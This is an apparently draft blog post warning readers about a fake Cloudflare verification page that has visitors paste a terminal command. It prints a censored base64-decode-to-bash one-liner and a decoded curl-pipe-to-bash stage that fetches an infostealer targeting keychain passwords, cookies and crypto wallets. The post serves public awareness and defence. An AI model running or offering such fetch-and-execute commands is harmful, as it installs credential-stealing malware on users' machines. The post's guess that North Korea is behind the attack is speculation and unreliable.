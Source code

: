 <!------------------------- REFERENCE LINKS BLOCK ----------------------------------->
[TODO]: some-link
<!----------------------- END REFERENCE LINKS BLOCK --------------------------------->

Watch Out For This Malware
==========================
Spreading the word about a nasty new phishing scam

![](./images/image.png)

> 🚨 BLUF: there's a clever new malware posing as a Cloudflare "verify you're human" page. If you do what this malware wants, it will steal everything on your computer.
> 
> DO NOT EVER run anything from a website in your terminal! There's no legitimate reason to do so, unless you're a coder and know what you're doing.

Yesterday I followed a link on a Harvard Health article and was presented with this official-looking screen:

![](./images/malware.jpeg)

_Website blocked out because I'm unsure if they're part of the malware, or just a victim._

I knew [Cloudflare has beef with AI companies](https://www.forbes.com/sites/johnwerner/2025/07/12/cloudflare-gives-ai-bot-companies-ultimatum/) so my subconscious figured this must be part of their war. Right as I mindlessly clicked "Copy", two huge red flags burst into my consciousness:

1. Why is Cloudflare asking me to run things in the terminal??
2. The supposed text to run wouldn't actually _do_ anything on the terminal.

Curious, I checked to see what I'd actually copied:

```
echo "<bunch of base64 I'm censoring for safety>" | base64 -d | bash
```

Suuuuper sketchy... some opaque encoded stuff is getting executed directly in `bash`. Very unlikely Cloudflare would do this, unless they pushed some very boneheaded feature recently.

What's inside that encoded stuff? Running just the decode step gives me:

```
curl -s http://<a totally random URL>/some/file.php | nohup bash &
```

_Again, censoring for safety._

So it would download a random file from a random server, and then run it with `bash`. I knew at this point that this isn't Cloudflare; it's malware.

My heebie-jeebies went into overdrive, and I closed the tabs before I accidentally ran anything like the full command.

> 🧠 Let me tell you: coffee's stimulant effects have nothing on the knowledge that if you copy-paste wrong, your computer will be enslaved to something straight out of Cthulhu's asshole.

I then Googled to see if anyone else had seen this.

Turns out [this security researcher has](https://cyooda.com/blog/highly-malicious-macos-infostealer), and he did the work of figuring out what that PHP file would have done:

- Copy the passwords in my Mac keychain
- Copy the cookies from my browsers
- Copy credentials to crypto wallets on my machine
- Send it all to a remote server

Scary stuff.

I reported both sites to Google Safe Browsing and closed everything out.

But I couldn't resist one last little investigation: who owns this domain?

I did a `whois` on the domain, and...

...it's registered with [this Japanese domain registrar](https://en.wikipedia.org/wiki/GMO_Internet), but the registrant is hidden. Boo.

That the trail leads back to Asia has me guessing it's either Chinese or North Korean in origin.

North Korea's cyber warfare groups are [notoriously aggressive in stealing crypto given the country has no real economy to speak of](https://observer.com/2025/04/how-north-korea-became-a-cybercrime-superpower-without-internet-access/), and the script stores its stolen credentials in a directory called `lovemrtrump`.

Could this be a nod to North Korea ↔ Trump relations? Or maybe a total red herring.

Regardless, I got chills knowing that a single line of text with such destructive power was still in my clipboard.

---

A few years back I wrote a guide on how normal people can stay safe on the internet.

I still follow it, and one of my recommendations there - [1Password](https://1password.com/)- would have partially protected me even if I'd run the malware.

If you want to build your own cyber defenses to Good Enough, you'll probably be interested in the guide: [Cybersecurity 101](https://mieubrisse.substack.com/p/cybersecurity-101).

And if this post was useful to you, consider subscribing for more posts designed to make your life better:

TODO SUBSCRIBE BUTTON

<!------------------ IG POST DESCRIPTION --------------------->
<!--
TODO

🐒 Full article at link in bio.
-->
